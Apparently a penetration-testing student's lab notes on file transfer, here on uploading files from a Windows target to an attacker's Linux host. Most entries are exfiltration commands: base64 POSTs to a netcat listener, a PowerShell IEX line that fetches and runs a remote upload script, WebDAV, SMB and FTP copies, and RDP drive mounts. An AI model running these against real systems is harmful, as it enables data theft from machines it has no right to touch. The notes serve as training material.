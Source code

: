 # Uploading
Situations: password cracking, analysis, exfiltration,..
- Upload files from Windows target machine onto our Linux machine 

## Powershell Bas64 Encode Decode
1. Get Hash on Windows
	- `Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash`
2. Encode File with Powershell on Windows
	- `[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
3. Copy and paste into Linux
4. Decode File in Linux
	- `echo <the long string> | base64 -d > hosts`
5. Check the host
	- `md5sum hosts`

## Powershell Web Uploads

*Configured WebServer with Upload*
1. On Linux,
	- `pip3 install uploadserver`
	- `python3 -m uploadserver`
		- Now hosting a server at port 8000
2. On Windows,
	- `IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
		- We need this script to upload the file to Linux
	- `Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts

*Powershell base 64 web upload*
1. On Linux,
	- `nc -lvnp 8000
2. On Windows,
	- `$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
	- `Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
3. On Linux,
	- `echo <base64> | base64 -d -w 0 > hosts

# SMB Uploads
- Companies usually allow outbound traffic using HTTP and HTTPS (80, 443) protocols.
- Usually dont allow SMB (445) as it leaves them open to attacks
- Alternative: run SMB over HTTP with WebDav.WebDAV
	- WebDav is an extension of HTTP
	- Enables webserver to behave like fileserver

*To configure WebDav server*
1. On Linux, configure the WebDav server
	- `sudo pip3 install wsgidav cheroot`
	- `sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
2. On Windows,
	- `dir \\192.168.49.128\DavWWWRoot`
		- DavWWWRoot is special keyword recognized by Windows shell
		- Tells it to connect to root of WebDav server
3. To upload files, on Windows
	- `copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\`

If there are no SMB (TCP/445) restrictions, can use impacket-smbserver just like in [[1. Windows Downloads]]

1. On Linux, start the smb server
	- `sudo impacket-smbserver share -smb2support /tmp/smbshare`
2. On Windows target, copy the file to share
	- `Copy-Item -Path 'C:\path\to\file.txt' -Destination '\\10.10.14.1\SHARE\file.txt'`

# FTP Uploads
1. Configure FTP server in our machine
	- `sudo pip3 install pyftpdlib`
	- `sudo python3 -m pyftpdlib --port 21 -- write
		- --write to allow target to upload files to us
2. Then on Windows
	- `(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')`
3. If no interactive shell,
	- `echo open 192.168.49.128 > ftpcommand.txt`
	- `echo USER anonymous >> ftpcommand.txt`
	- `echo binary >> ftpcommand.txt`
	- `echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt`
	- `echo bye >> ftpcommand.txt`
	- `ftp -v -n -s:ftpcommand.txt`


# RDP Transfer (to and fro)

1. Mount Linux Folder
	- `rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'`
	- or
	- `xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer`
	- The IP, u and p are for the Windows machine. Am mounting the linux drive folder onto the Windows machine
	- d is domain
2. On Windows, 
	- Connect to `\\tsclient\` in file explorer
		- Network > tsclient
